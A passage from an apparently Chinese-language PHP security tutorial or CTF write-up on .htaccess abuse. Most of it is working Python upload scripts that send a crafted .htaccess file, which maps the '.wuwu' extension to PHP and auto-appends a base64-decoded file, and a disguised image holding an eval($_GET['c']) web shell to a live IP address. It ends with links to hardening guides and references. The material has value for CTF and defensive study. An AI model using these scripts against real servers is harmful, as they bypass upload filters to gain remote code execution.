AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/images/1222a98e5b5a6fd81ff8761be852e16e75b18703/shell.wuwu"
"""
# php://filter/convert.base64-decode/resource=/var/www/html/images/e694a9e3c406b3d8b247d73836958f6303ed7b72/shell.wuwu
data = {
    'upload':'submit'
}
shell = b"\x00\x00\x8a\x39\x8a\x39"+b"\x39\x39"+ base64.b64encode(b"<?php phpinfo();?>")
normal = b"\x00\x00\x8a\x39\x8a\x39" + b"";
files = {
    'image':(
        'shell.wuwu',
        shell,
        'application/octet-stream'
    )
}

proxies = {
    'http':'http://127.0.0.1:8080'
}


s = requests.session()
r = s.post(url,cookies=Cookies,data=data,files=files,proxies=proxies).text
print(r)


# images/295be839f519b2a6dac30e8e472ca45856fcb402/
```


题目的后半段为绕过disable_function


## 0x07 利用脚本


### 通用上传+文件类型绕过脚本

```python
import requests
import base64

url = "http://35.246.234.136/?"

header = {"Cookie":"PHPSESSID=58eshi3a265dguf0icnkc6qk5a"}

#这里是使用xxd查看的文件16进制
htaccess = b"""\x00\x00\x8a\x39\x8a\x39 
AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/images/e694a9e3c406b3d8b247d73836958f6303ed7b72/shell.wuwu"
"""

shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_GET['c']);?>")

files = [('image',('.htaccess',htaccess,'application/octet-stream'))]

data = {"upload":"Submit"}

proxies = {"http":"http://127.0.0.1:8080"}
print("upload .htaccess")
r = requests.post(url=url, data=data, files=files,headers=header)#proxies=proxies)

# print(r.text) 

print("upload shell.wuwu")

files = [('image',('shell.wuwu',shell,'application/octet-stream'))]
r = requests.post(url=url, data=data, files=files,headers=header)
```


### php配置弱点检查脚本

- [pcc](https://github.com/sektioneins/pcc)


## 0x08 php安全加固

- [PHP环境安全加固](https://www.alibabacloud.com/help/zh/faq-detail/50218.htm)


# 参考链接

- [php .htaccess文件使用详解](https://www.cnblogs.com/IT-LM/p/6829209.html)
- [apache配置rewrite及.htaccess文件](https://blog.51cto.com/wujianwei/2163907)
- [Apache中.htaccess文件利用的总结与新思路拓展](https://www.freebuf.com/vuls/218495.html)
- [CGI、FastCGI和PHP-FPM关系图解](https://www.awaimai.com/371.html)
- https://github.com/wireghoul/htshells
- [pcc](https://github.com/sektioneins/pcc)
- [*php.ini 配置选项列表*](https://www.php.net/manual/zh/ini.list.php#ini.list)

